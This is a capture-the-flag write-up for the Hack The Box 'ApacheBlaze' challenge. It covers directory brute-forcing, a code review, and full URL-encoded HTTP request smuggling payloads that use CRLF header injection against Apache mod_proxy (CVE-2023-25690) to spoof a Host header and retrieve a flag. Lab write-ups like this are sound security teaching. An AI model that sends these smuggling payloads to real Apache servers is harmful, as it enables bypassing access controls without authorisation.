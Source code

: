 # Solve HTBank 
#### https://app.hackthebox.com/challenges/ApacheBlaze

![alt text](images/image.png)

##### By directory brute force with dirsearech
`dirsearch -u http://94.237.58.211:30916/ -x 404,403` 
[05:53:25] 200 -  360B  - /assets/                                          
[05:53:25] 301 -  242B  - /assets  ->  http://94.237.58.211:30916/assets/   
[05:53:27] 200 -    1KB - /cgi-bin/test-cgi                                 
[05:53:27] 200 -  820B  - /cgi-bin/printenv

#### /assets page
![alt text](images/image-1.png)
#### /cgi-bin/test-cgi page
![alt text](images/image-2.png)
#### /cgi-bin/printenv page
![alt text](images/image-3.png)

##### nmap scan 

```
22/tcp    open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:fb:f2:1e:09:9a:a3:10:c7:f3:18:3f:18:9d:4a:76 (RSA)
|   256 15:53:99:6a:83:03:96:0b:b7:82:44:7d:34:f0:7d:69 (ECDSA)
|_  256 46:2f:3e:5e:ee:65:be:17:7c:3b:51:02:5c:51:83:06 (ED25519)

30916/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache
|_http-title: ApacheBlaze
```
## Review the sorce code

### Analyze fetchAPI.js
*you can find the file in [fetchAPI.js](src/challenge/frontend/src/assets/js/fetchAPI.js)*

The **fetchAPI.js** code can be broken down as follows:

1. The code waits for the document to be ready using `$(document).ready(function() {...})`.

2. It attaches a click event handler to links (`<a>`) inside elements with the class "game" using `$(".game a").click(function(event) {...})`.

3. Inside the click event handler:
   - `event.preventDefault()` **prevents the default behavior** of the clicked link, which is typically navigating to a new page.

   - `var gameName = $(this).attr("div")` retrieves the value of the "div" attribute of the clicked link. 
     - `$(this)` refers to the clicked link.
     - `.attr("div")` is used to get the value of the "div" attribute.

4. An AJAX request is made to the "/api/games/" endpoint with the obtained `gameName` using `$.ajax({...})`.

5. The `success` callback function handles a successful response by updating the content of the element with ID "gameplayresults" with the received message.

6. The `error` callback function handles an error in fetching API data by updating the content of the same element with an error message.

### Analyze app.py
*you can find the file in [app.py](src/challenge/backend/src/app.py)*

### Notice that we find a suspicious function in the backend code

``` python
elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200

```
The code checks if the user choose `click_topia` Game and the request has `X-Forwarded-Host` header with value `dev.apacheblaze.local` it return the flag as a Json.

#### HTTP header manipulation with `X-Forwarded-Host`
![alt text](images/image-4.png)
We got 408 Request Timeout.

##### Try POST request
![alt text](images/image-5.png)
We got 408 Request Timeout.
*Note from code `@app.route('/', methods=['GET'])` ONLY `GET` method is allowed*

### Analyze httpd.conf (This Apache HTTP Server configuration)
*you can find the file in [httpd.conf](src/conf/httpd.conf)*

This configuration sets up a reverse proxy on port `1337`, forwarding requests to a backend server on port `8080`, which is load-balanced across two backend servers (`8081` and `8082`). The rewrite rule in the first virtual host handles requests to `/api/games/` by forwarding them to the backend server with the appropriate query parameter. The load balancer in the second virtual host distributes requests among the specified backend servers.


### Mod Proxy module
`mod_proxy` is an Apache module that provides support for proxying requests. It enables the Apache HTTP Server to act as a **gateway** or **reverse proxy** (a reverse proxy manages incoming requests from clients and forwards them to backend servers). This module is often used to forward requests from Apache to another web server, application server, or backend server.

## Try to Http request smuggling via header injection
### Normal request
```
GET /api/games/click_topia HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/

```
we can hide a second request in the first we sent to the target (with the `\r\n\r` splitting method). That enable us to send the request directly from the **reverse proxy**.
### Try to inject with X-Forwarded-Host
```
GET /api/games/click_topia HTTP/1.1
X-Forwarded-Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aX-Forwarded-Host:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
Note: `%0A` for newline `\n` and `%0D` for carriage return `\r`
So `\r\n ` ->  `%0d%0a` `\r\n\r`  ->  `%0d%0a%0d`

![alt text](images/image-6.png)
The server Can't understand X-Forwarded-Host header 
### Try to inject with Host

```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```

![alt text](images/image-7.png)
### Resorces
[HTTP Request Smuggling attack ](https://portswigger.net/web-security/request-smuggling)
[Http request smuggling via header injection](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
[CVE 2023 25690 POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
[URL encoding of newline](https://stackoverflow.com/questions/3871729/transmitting-newline-character-n)


>Find More on ==> github.com/MedhatHassan

